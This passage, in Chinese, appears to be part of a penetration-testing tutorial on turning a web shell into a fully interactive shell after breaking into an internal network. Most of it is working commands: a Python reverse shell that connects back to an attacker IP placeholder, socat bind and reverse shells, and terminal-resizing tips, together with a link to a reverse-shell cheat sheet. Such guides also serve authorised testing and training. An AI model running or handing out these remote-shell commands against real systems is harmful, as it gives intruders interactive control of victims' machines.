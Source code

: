 这部分内容与 pivoting 或 tunneling 没有直接关系，而是描述了在内部网络发展攻击时简化工作的方法。通常情况下，使用 web-shell 非常繁琐，特别是在使用需要交互式命令界面的程序时。很可能你会使用一些解决方法来执行简单的任务，比如将密码传递给 sudo/su 或者只是编辑一个文件。我不是一个折磨自己的狂热爱好者，所以当有一个机会将 web-shell 升级到一个交互式 shell 时，我这样做:)我不会介绍像使用 bash/perl/python 等启动半交互式 shell。有很多关于这样做的信息。看看这个反向 shell 备忘单 - <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet> 。

### Python PTY shell

从常规的半交互式 shell 升级。你可以在现有的 shell 中执行以下命令：

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

或者启动反向连接：

```sh
python -c 'import socket,subprocess,os;\
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);\
s.connect(("<attackers_ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);\
os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

### Socat

Netcat 的加强版！可是说实话，去检查这个[工具](http://www.dest-unreach.org/socat/)的手册 `man socat`，你会惊奇你可以用这个工具做隧道化的工作。除此之外，它可以产生一个完全交互的 shell，甚至比前面提到的 python-pty 更好。缺点是你很可能将不得不在目标服务器上编译/安装这个工具，因为它不是大多数类 Unix 发行版中的默认工具。

#### 绑定 shell

设置监听器：

```sh
socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
```

连接到监听器：

```sh
socat FILE:`tty`,raw,echo=0 TCP:<victim_ip>:1337
```

#### 反向 shell

设置监听器：

```sh
socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0
```

连接到攻击者的机器：

```sh
socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane
```

#### 终端大小

默认情况下，终端的大小是相当小的，当启动 `top` 命令或使用文本编辑器编辑文件时你可能会注意到。你可以很容易地改变这个，使用 `stty -a` 命令来获得你的常规终端的大小：

```sh
$ stty -a
speed 38400 baud; rows 57; columns 211; line = 0;
```
